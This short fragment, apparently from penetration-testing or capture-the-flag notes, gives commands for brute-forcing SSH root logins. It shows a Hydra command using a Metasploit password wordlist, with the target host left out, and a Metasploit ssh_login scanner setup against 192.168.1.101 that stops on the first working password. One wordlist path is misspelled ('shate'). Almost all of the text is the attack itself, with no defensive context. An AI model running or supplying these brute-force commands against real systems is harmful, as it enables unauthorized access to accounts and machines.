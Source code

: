 `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -T 4 -V -f`

or using metasploit
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.101
set USER root
set PASS_FILE /usr/shate/wordlists/metasploit/unix_passwords.txt
set STOP_ON_SUCCESS true
set THREADS 10
run
```
